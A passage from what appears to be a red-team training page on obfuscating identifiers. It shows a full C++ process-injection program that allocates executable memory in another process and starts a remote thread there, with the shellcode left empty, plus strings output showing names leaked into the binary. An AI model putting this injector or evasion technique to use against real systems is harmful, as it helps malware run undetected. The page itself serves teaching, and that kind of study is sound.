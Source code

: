 The aforementioned white paper: [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3), summarizes these practices well under the **code-element** layer’s **meaningless identifiers** method.

Below we will observe two basic examples of replacing meaningful identifiers for both an interpreted and compiled language.

As an example of a compiled language, we can observe a process injector written in C++ that reports its status to the command line.

```
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = "";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;
    string leaked = "This was leaked in the strings";

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    cout << "Handle obtained for" << processHandle;
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    cout << "Buffer Created";
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    cout << "Process written with buffer" << remoteBuffer;
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);
    cout << "Closing handle" << processHandle;
    cout << leaked;

    return 0;
}
```

Let’s use strings to see exactly what was leaked when this source code is compiled.

```
C:\>.\strings.exe "\Injector.exe"

Strings v2.54 - Search for ANSI and Unicode strings in binary images.
Copyright (C) 1999-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

!This program cannot be run in DOS mode.
>FU
z';
z';
...
[snip]
...
Y_^[
leaked
shellcode
2_^[]
...
[snip]
...
std::_Adjust_manually_vector_aligned
```